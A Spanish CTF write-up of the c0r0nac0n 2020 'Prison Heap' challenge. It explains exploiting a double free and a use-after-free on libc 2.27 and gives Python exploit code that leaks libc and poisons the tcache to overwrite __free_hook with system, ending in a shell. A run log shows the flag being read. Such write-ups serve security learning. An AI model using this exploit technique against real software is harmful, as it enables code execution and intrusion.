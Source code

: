 ```yaml
---
layout: post
title: c0r0nac0n 2020 - Exploiting - Prison Heap (heap, libc 2.27)
tags: heap, libc 2.27
---
```


### Resumen

Tenemos un reto de heap clásico, con 3 opciones en el menú: escribir, leer y liberar.

El binario tiene 2 vulnerabilidades:
* permite liberar el mismo registro varias veces
* podemos leer un registro ya liberado

![checksec]({{site.base_url}}/files/c0r0nac0n/checksec.png)

Vemos que están habilitadas todas las medidas de seguridad, y que el binario usa PIE. Esto significa que, de entrada, no tenemos ninguna dirección de memoria conocida a la que agarrarnos.

### Leak libc

El tcache de libc 2.26 y superiores, mantiene una lista de chunks liberados por tamaño y thread de ejecución. Almacena hasta un total de 7 chunks. Una vez lleno, funciona igual que en versiones anteriores, y el chunk liberado, en función de su tamaño, va al bin que le corresponda (fastbin, smallbin, unsorted bin).

Los chunks en el tcache se almacenan en una lista doblemente enlazada (punteros `fd` y `bk`). Usando la vulnerabilidad use-after-free podríamos liberar uno y obtener su contenido (veríamos el puntero `fd`), pero serían direcciones del heap, que no nos sirven.

En cambio, si liberamos 8 veces un chunk del tamaño adecuado, 7 llenarían el tcache y el octavo entraría al unsorted bin, y su parámetro `fd` pasaría a contener un puntero al `main_arena`. Esta dirección está entro de la libc, y su distancia con la dirección base puede calcularse fácilmente.

![unsorted chunk]({{site.base_url}}/files/c0r0nac0n/unsorted.png)

```python
write_prison(0xf8) #0
write_prison(0x20) #1

for i in range(7):
    free_prison(0)

free_prison(0)

leak = read_prison(0)[:6]+"\x00\x00"
libc_arena = unpack(leak)
libc_address = libc_arena - 0x3ebca0
```

### Shell

Una vez tenemos la dirección base de libc, nuestro objetivo será ejecutar `system("/bin/sh")`.

Una buena opción, cuando es posible, es sobrescribir el puntero de `__free_hook`. Esta funcion será llamada cada vez que se libere un bloque con `free()`, y se le pasará como parámetro el chunk que se está liberando. 

Sobrescribiremos ese puntero con la dirección de `system`, de forma que cuando liberemos un chunk que contenga `"/bin/sh\x00"`, nos proporcione el shell.

```python
target_chunk = libc.sym['__free_hook']

# Creamos un chunk y lo liberamos dos veces
write_prison(0x68) #2
free_prison(2)
free_prison(2)

# Sobrescribimos el puntero fd del chunk una primera vez.
write_prison(0x68, pack(target_chunk)) #3

# Ahora mismo la lista del tcache apunta al mismo chunk, pero con su fd modificado en el paso anterior
# Lo solicitaremos de nuevo, pero esta vez sin alterar su contenido:
write_prison(0x68, "") #4

# En estos momentos la lista de bloques libres del tcache apunta a nuestra dirección objetivo
# Reservaremos de nuevo un chunk del mismo tamaño, y escribiremos la dirección de system
write_prison(0x68, pack(libc.sym['system'])) #5
```

Ya solo falta crear un chunk con el comando que queramos ejecutar y liberarlo.

```python
write_prison(0x30, "/bin/sh\x00") #6
free_prison(6)

io.interactive()
```

### Ejecución

```bash
$ python exploit_prison1.py
[*] '/home/CTF/C0r0naC0n/Exploit/Heap1/prison_heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 161.35.30.233 on port 1337: Done
[*] u'/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Libc arena:     7fb9a0a38ca0
[*] Libc base:      7fb9a064d000
[*] Target_chunk:     7fb9a0a3a8e8
[*] Switching to interactive mode

$ cat home/prison/prison_heap/flag.txt
flag{h34p_Pr1s0n_1s_34sy_To_byp4ss}
```

En breve, el writeup de Prison Heap 2.

## Descargas


* [exploit_prison1.py]({{site.base_url}}/files/c0r0nac0n/exploit_prison1.py)
* [prison_heap]({{site.base_url}}/files/c0r0nac0n/prison_heap)
* [libc-2.27.so]({{site.base_url}}/files/c0r0nac0n/libc-2.27.so)
